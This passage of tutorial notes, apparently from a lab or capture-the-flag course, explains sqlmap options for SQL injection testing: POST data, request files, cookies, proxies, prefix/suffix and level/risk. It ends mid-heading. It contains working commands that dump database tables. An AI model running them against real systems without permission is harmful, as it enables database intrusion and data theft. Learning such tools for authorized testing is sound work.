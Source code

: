 For POST Request, we need to run the command : `sqlmap 'http://www.example.com/' --data 'uid=1&name=test`
> Now here both the parameters `uid` and `name` will be tested, but if we need one of them to be tested then it should be like `uid1*&name=test`, so here UID must be tested.

## Full HTTP Request
Create a file named as `req.txt` and insert the HTTP Request Packet there. And then use the command : `sqlmap -r req.txt`

## Specifying a Cookie 
- Using a flag `--cookie`  : `sqlmap "http://www.example.com/" --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`
- Using a flag `-H/--header` : `sqlmap "http://www.example.com/" -H='Cookie:ab4530f4a7d10448457fa8b0eadac29c'`

**Specifying alternative HTTP Method :** `sqlmap -u www.target.com --data='id=1' --method PUT`


We should also use two flags to extract information : `--batch --dump`

`sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch`: In this command , `-p` specifies parameter to be tested, `--dump -T flag2` instructs SQLmap to dump (extract) all data from the table named flag2.

To store the traffic, we can use this command : `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`

To raise the verbosity of the scan, we can use the command : `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`

To use proxy as Burp we use the command : `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch --proxy 127.0.0.1:8080`

## Prefix/Suffix

There is a requirement for special prefix and suffix values in rare cases, not covered by the regular SQLMap run.  
For such runs, options `--prefix` and `--suffix` can be used as follows:

Code: bash

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```


## Level/Risk
- The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
    
- The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).

#### Status Codes
